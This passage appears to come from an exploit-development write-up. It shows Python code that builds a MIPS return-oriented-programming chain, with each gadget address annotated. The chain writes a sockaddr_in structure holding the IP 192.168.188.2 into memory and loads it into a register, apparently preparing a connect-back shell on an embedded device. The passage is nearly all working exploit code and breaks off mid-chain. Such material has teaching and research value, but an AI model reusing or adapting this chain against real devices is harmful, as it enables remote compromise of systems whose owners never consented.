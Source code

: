 ```python
# s1 has our sockaddr address, load address of afinet into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10; 
chain += p32(harcdoded_afinet) # v0
chain += b'b' * 8
chain += p32(0x1a46dc + base_address) # ra

# Load hardcoded afinet stuff into v0 (currently has the address)
# 0x001a46dc: lw $v0, ($v0); lw $ra, 4($sp); jr $ra; addiu $sp, $sp, 8; 
chain += b'b' * 4
chain += p32(0x13e134 + base_address) # ra

# Store the afinet stuff at our sockaddr struct
# 0x0013e134: sw $v0, ($s1); lw $ra, 0x14($sp); lw $s3, 0x10($sp); lw $s2, 0xc($sp); lw $s1, 8($sp); lw $s0, 4($sp); jr $ra; addiu $sp, $sp, 0x18; 
chain += b'b' * 4
chain += p32(0xdeadbeef) # s0
chain += p32(sockaddr_addr + 4) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x57864 + base_address) # ra

# Load the IP address into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10; 
chain += struct.pack('>BBBB', 192, 168, 188, 2) # v0, IP
chain += b'b' * 8
chain += p32(0x13e134 + base_address) # ra

# Store the loaded IP address at sockaddr + 4
# 0x0013e134: sw $v0, ($s1); lw $ra, 0x14($sp); lw $s3, 0x10($sp); lw $s2, 0xc($sp); lw $s1, 8($sp); lw $s0, 4($sp); jr $ra; addiu $sp, $sp, 0x18;
chain += b'b' * 4
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x57864 + base_address) # ra
```

With our *sockaddr_in* struct completed and stored, we can now work on moving it into *$t0*:

```python
## Load t0 value into v0
# Load v0 from stack
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(sockaddr_addr) # v0 - sockaddr address
chain += b'b' * 8
chain += p32(0x15d20c + base_address) # ra

# Move sockaddr from v0 into t0 (load v0 from stack, move into t0) 
# 0x0015d20c: move $t0, $v0; lw $ra, 0x2c($sp); addiu $s0, $zero, 0x163; move $v0, $s0; lw $s7, 0x28($sp); lw $s6, 0x24($sp); 
#   lw $s5, 0x20($sp); lw $s4, 0x1c($sp); lw $s3, 0x18($sp); lw $s2, 0x14($sp); lw $s1, 0x10($sp); lw $s0, 0xc($sp); jr $ra; addiu $sp, $sp, 0x30; 
chain += b'b' * 0xc
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0xdeadbeef) # s4
chain += p32(0xdeadbeef) # s5
chain += p32(0xdeadbeef) # s6
chain += p32(0xdeadbeef) # s7
chain += p32(0x1895cc + base_address) # ra
```
